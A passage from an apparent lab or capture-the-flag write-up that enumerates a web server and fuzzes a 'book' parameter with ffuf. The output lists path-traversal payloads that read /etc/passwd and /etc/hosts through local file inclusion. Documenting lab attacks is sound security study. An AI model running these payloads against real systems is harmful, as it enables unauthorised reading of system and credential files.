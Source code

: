 ```bash
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 296, Words: 71, Lines: 15, Duration: 1245ms]
app                     [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 40ms]
.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 2246ms]
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 2248ms]
backup                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 37ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 3251ms]
index.html              [Status: 200, Size: 296, Words: 71, Lines: 15, Duration: 47ms]
javascript              [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 43ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 39ms]
```

There's not much here and most of it I can't access.

Checking around on port 8593, I noticed there was an interesting parameter: `book`.

Fuzzing for LFI, I find it vulnerable:

```bash
$ ffuf -u http://192.168.238.72:8593/index.php?book=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 45

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.238.72:8593/index.php?book=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 45
________________________________________________

/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 48ms]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 51ms]
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 52ms]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 562, Words: 63, Lines: 20, Duration: 38ms]
/../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 43ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 44ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 44ms]
```